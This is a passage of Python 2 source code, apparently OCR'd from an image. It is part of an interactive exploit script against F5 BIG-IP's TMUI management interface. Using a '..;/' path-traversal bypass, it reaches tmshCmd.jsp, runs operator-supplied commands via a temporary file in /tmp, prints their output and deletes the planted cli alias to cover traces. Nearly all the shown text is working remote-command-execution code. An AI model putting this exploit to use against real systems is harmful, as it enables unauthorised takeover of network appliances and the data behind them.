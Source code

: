 ```python
    response_str = json.dumps(r.headers.__dict__['_store'])
    if r.status_code == 200 and 'tmui' in response_str:
        # print fileSave_url
        print "[+] fileSave.jsp Exit!\n"
        list_command(url,file)
    else:
        print "[+] fileSave.jsp No Exit!\n"

def list_command(url,file):
    rce_url = url + "/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/%s" % file
    proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
    r = requests.get(rce_url,verify=False,allow_redirects=False)
    # r = requests.get(rce_url,verify=False,allow_redirects=False,proxies=proxies)
    response_str = json.dumps(r.headers.__dict__['_store'])
    # print len(r.content)
    if r.status_code == 200 and 'tmui' in response_str:
        if len(r.content) > 33:
            # print rce_url
            print "[+] Command Successfull !\n"
            command_result = json.loads(r.content)
            print "_"*90,'\n\n'
            print command_result['output']
            print "_"*90,"\n\n"
            delete_list(url)
    else:
        print "[+] Command Failed !\n"

def delete_list(url):
    delete_url = url + '/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list'
    proxies = {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}
    r = requests.get(delete_url,verify=False,allow_redirects=False)
    # r = requests.get(delete_url,verify=False,allow_redirects=False,proxies=proxies)
    response_str = json.dumps(r.headers.__dict__['_store'])
    if r.status_code == 200 and 'tmui' in response_str:
        # print delete_url
        print "[+] delete cli alias private list Successfull! \n"
    else:
        print "[+] delete cli alias private list Failed! \n"


if __name__ == '__main__':
    print banner
    while 1:
        url = "https://x.x.x.x/"
        # url = sys.argv[1]
        file = str(uuid.uuid1())
        print "/tmp/" + file,"\n"
        cmd = raw_input("[+]Set Cmd= ")
        print
        tmshCmd_exit(url,file,cmd)
```
